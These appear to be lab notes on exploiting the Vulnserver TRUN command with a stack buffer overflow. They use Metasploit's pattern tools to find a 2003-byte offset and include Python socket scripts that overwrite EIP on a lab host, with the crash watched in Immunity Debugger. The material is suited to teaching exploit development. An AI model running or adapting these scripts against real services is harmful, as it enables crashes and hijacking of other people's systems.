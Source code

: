 ### Finding the Offset
will be using metasploit tool: `pattern_create`
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000   #-l = length , this will generate code we send to vuln server
```
- 2.py script we will use
```python
#!/usr/bin/python

import sys, socket
offset = "[PASTE created value from pattern_create]"

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.1.35',9999))
	s.send(('TRUN /.:/' + offset))
	s.close()
except:
	print "Error connecting to server"
	sys.exit()
```
- in kali
```bash
gedit 2.py #save script with pattern_Create value 
chmod +x 2.py #make executable
./2.py #run

#observe immunity
```
- take EIP value from immunity
- back in kali >> modify pattern_create to pattern_offset
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 3864337 # -q = EIP value from immunity

#will give us exact offset match >>> 2003 bytes
```

### Overwriting the EIP
modify 2.py script since we now have offset bytes
- 2003 offset value >> represent how many bytes until offset occurs, then the actual EIP is 4 bytes
```python
#!/usr/bin/python

import sys, socket
shellcode = "A" * 2003 + "B" * 4

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.1.35',9999))
	s.send(('TRUN /.:/' + shellcode))
	s.close()
except:
	print "Error connecting to server"
	sys.exit()
```
- in kali
```bash
gedit 2.py #save script with pattern_Create value 
chmod +x 2.py #make executable
./2.py #run

#observe immunity
```
